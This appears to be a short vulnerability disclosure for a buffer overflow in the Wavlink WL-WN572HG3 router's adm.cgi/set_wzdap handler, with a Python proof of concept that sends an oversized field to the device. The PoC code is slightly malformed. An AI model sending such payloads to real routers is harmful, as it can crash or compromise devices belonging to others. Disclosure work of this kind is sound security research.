 # buff overflow

## WAVLINK_WL_WN572HG3

version: 20220801

## Description:

There is a buff overflow in adm.cgi/set_wzdap

## Source:

you may download it from : 

https://www.wavlink.com/en_us/firmware/details/1f4fea6a58.html##

 Analyse:

![](1.png)

get value from wlan_ssid2g, and we can set TouchLinkEn in wireless.cgi, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'key': + payload})
```
